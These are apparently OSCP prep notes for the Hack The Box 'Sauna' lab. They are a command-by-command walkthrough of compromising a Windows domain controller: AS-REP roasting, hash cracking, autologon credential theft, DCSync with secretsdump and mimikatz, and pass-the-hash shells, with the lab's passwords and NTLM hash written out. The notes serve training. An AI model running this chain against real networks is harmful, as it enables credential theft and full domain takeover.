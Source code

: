 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🧰 Tools Used

- `nmap`
- `ldapsearch`
- `dig`
- `kerbrute`
- `GetNPUsers.py` (from Impacket)
- `hashcat`
- `evil-winrm`
- `smbserver.py` (Impacket)
- `winPEAS.exe`
- `BloodHound`, `SharpHound.exe`, `neo4j`
- `secretsdump.py` (Impacket)
- `mimikatz`
- `wmiexec.py`, `psexec.py` (Impacket)

---

## 📜 All Commands in Order

### 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.10.175
nmap -p 53,80,88,135,139,389,445,464,593,3268,3269,5985 -sC -sV -oA scans/tcpscripts 10.10.10.175
```

### 🌐 [Web Enumeration](HTTP)

```bash
gobuster dir -u http://10.10.10.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root -t 40
```

### 🖧 [SMB](SMB.md) Enumeration

```bash
smbmap -H 10.10.10.175
smbclient -N -L //10.10.10.175
```

### 📚 [LDAP](LDAP.md) Enumeration

```bash
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

### 🌐 DNS Zone Transfer Attempt

```bash
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 🔍 Kerberos User Brute-Force (User Enum)

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

### 🔓 Crack AS-REP Hash

```bash
hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

### 🧠 Evil-WinRM Shell as fsmith

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### 📤 SMB Share to Upload winPEAS

```bash
smbserver.py -username df -password df share . -smb2support
```

From WinRM:
```powershell
net use \\10.10.14.30\share /u:df df
cd \\10.10.14.30\share
.\winPEAS.exe cmd fast > sauna_winpeas_fast
```

### 🔐 Find AutoLogon Creds (WinRM)

```powershell
cd HKLM:\software\microsoft\windows nt\currentversion\winlogon
get-item -path .
```

or

```powershell
reg query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
```

### 🧠 Evil-WinRM Shell as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

### 🧠 BloodHound Collection

From WinRM:
```powershell
cd \\10.10.14.30\share
.\SharpHound.exe
```

### 🔓 DCSync with secretsdump

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### 🛠️ DCSync with mimikatz (WinRM)

```powershell
upload /opt/mimikatz/x64/mimikatz.exe
.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

### 🖥️ Shell as Administrator with wmiexec

```bash
wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🖥️ Shell as SYSTEM with psexec

```bash
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🔑 Admin Shell via Evil-WinRM

```bash
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```
